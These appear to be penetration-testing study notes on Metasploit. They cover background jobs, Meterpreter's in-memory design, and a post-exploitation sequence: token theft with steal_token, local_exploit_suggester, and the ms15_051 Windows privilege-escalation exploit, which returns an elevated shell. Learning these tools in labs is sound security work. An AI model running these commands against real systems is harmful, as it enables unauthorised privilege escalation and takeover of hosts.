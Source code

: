   ```shell
  # help for jobs

  # we can run an exploit as a background job
  exploit -j

  jobs -l
  # list running jobs
  ```

## Meterpreter

* Meterpreter payload - specific, multi-faceted, extensible payload - uses DLL injection and resides in memory of victim, leaving no traces on hard drive.

* When Meterpreter payload is sent & run on target, we get a Meterpreter shell.

  ```shell
  # inside meterpreter shell
  help
  # get list of all commands

  getuid
  # get user details
  
  # migrate process to user with more privilege
  ps
  # process list

  steal_token 1836
  # where 1836 is PID of process with privileged user

  getuid
  # privileged user

  # we can try for more privesc

  bg
  # background the session

  # back in normal msfconsole
  search local_exploit_suggester

  use 0

  show options

  set SESSION 1

  run
  # this recon module shows multiple options
  # we can try the exploits suggested

  use exploit/windows/local/ms15_051_client_copy_images

  show options

  set session 1

  set LHOST tun0

  run
  # we get meterpreter shell

  getuid
  ```